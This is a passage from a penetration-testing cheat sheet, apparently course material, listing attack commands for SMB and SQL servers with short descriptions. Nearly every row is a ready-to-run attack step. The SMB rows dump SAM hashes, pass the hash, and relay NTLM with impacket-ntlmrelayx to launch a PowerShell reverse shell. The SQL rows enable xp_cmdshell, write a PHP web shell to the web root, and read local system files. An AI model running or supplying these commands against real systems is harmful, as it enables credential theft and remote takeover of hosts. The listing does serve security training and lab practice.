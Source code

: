 |`crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`|Enumerating Logged-on users.|
|`crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`|Extract hashes from the SAM database.|
|`crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`|Use the Pass-The-Hash technique to authenticate on the target host.|
|`impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`|Dump the SAM database using `impacket-ntlmrelayx`.|
|`impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>`|Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`.|

---

### Attacking SQL Databases

| **Command**                                                                                                                | **Description**                                                                                               |
| -------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------- |
| `mysql -u julio -pPassword123 -h 10.129.20.13`                                                                             | Connecting to the MySQL server.                                                                               |
| `sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30`                                                      | Connecting to the MSSQL server.                                                                               |
| `sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h`                                                                        | Connecting to the MSSQL server from Linux.                                                                    |
| `sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h`                                                                     | Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server. |
| `mysql> SHOW DATABASES;`                                                                                                   | Show all available databases in MySQL.                                                                        |
| `mysql> USE htbusers;`                                                                                                     | Select a specific database in MySQL.                                                                          |
| `mysql> SHOW TABLES;`                                                                                                      | Show all available tables in the selected database in MySQL.                                                  |
| `mysql> SELECT * FROM users;`                                                                                              | Select all available entries from the "users" table in MySQL.                                                 |
| `sqlcmd> SELECT name FROM master.dbo.sysdatabases`                                                                         | Show all available databases in MSSQL.                                                                        |
| `sqlcmd> USE htbusers`                                                                                                     | Select a specific database in MSSQL.                                                                          |
| `sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`                                                                 | Show all available tables in the selected database in MSSQL.                                                  |
| `sqlcmd> SELECT * FROM users`                                                                                              | Select all available entries from the "users" table in MSSQL.                                                 |
| `sqlcmd> EXECUTE sp_configure 'show advanced options', 1`                                                                  | To allow advanced options to be changed.                                                                      |
| `sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1`                                                                            | To enable the xp_cmdshell.                                                                                    |
| `sqlcmd> RECONFIGURE`                                                                                                      | To be used after each sp_configure command to apply the changes.                                              |
| `sqlcmd> xp_cmdshell 'whoami'`                                                                                             | Execute a system command from MSSQL server.                                                                   |
| `mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'`                           | Create a file using MySQL.                                                                                    |
| `mysql> show variables like "secure_file_priv";`                                                                           | Check if the the secure file privileges are empty to read locally stored files on the system.                 |
| `sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`                 | Read local files in MSSQL.                                                                                    |
| `mysql> select LOAD_FILE("/etc/passwd");`                                                                                  | Read local files in MySQL.                                                                                    |